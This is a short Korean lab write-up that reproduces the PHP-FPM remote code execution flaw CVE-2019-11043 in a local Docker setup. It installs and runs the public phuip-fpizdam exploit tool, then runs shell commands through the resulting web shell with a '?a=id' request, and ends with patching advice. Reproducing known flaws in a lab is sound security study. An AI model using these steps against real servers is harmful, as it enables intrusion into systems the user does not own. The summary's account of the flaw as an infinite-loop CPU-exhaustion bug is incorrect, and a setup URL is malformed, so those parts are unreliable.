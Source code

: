 # CVE-2019-11043

**Confributors**
- [장종일(@akinao76)] (https://github.com/akinao76)

### 요약
- CVE-2019-11043은 웹서버와 PHP 특정 버전에서 이 둘을 연결해주는 기능인 PHP-FPM에서 발생한 원격 코드 실행 취약점이다.
- 취약점은 일반적인 NGINX 환경 구성에서 발생한다.
- 이 취약점은 PHP-FPM의 무한 루프(infinite loop) 조건과 관련이 있다. PHP-FPM에서 특정 조건을 트리거하면 서버가 무한 루프에 빠져 CPU 리소스를 소비하게 되며, 이를 이용하여 원격 코드 실행이 가능해진다.

### 환경 구성 및 실행
-  `docker compose up -d`

환경이 실행되고 나면, `http://your-ip/8080/index.php` 에서 기본 페이지를 볼 수 있다.
![[setup.png]]


### 공격
취약점을 재현하기 위해 이 도구를 사용한다.  <https://github.com/neex/phuip-fpizdam>:
- `go mod init [PKG name]` 으로 Go 모듈 초기화
- 이후 `go get github.com/neex/phuip-fpizdam`으로 도구 설치
![[pocready.png]]

공격을 진행하려면 `~/go/bin` 경로로 이둥하여 `./phuip-fpizdam http://localhost:8080/index.php`로 도구 실행
![[exploit.png]]

### 결과 

웹쉘은 PHP-FPM 백그라운드에서 작동된다. RCE를 실행하려면 `http://your-ip:8080/index.php?a=id`로 접속하면 된다.

![[exploit2.png]]

### 정리
- 이 취약점은 공격자가 PHP-FPM 서버에 원격으로 액세스하고, 악의적인 코드를 실행할 수 있는 위험한 상황을 만들게 된다. 이를 해결하기 위해 PHP-FPM 버전을 최신 버전으로 업데이트하거나, 관련된 보안 패치를 적용하여 취약점을 해결할 필요가 있다.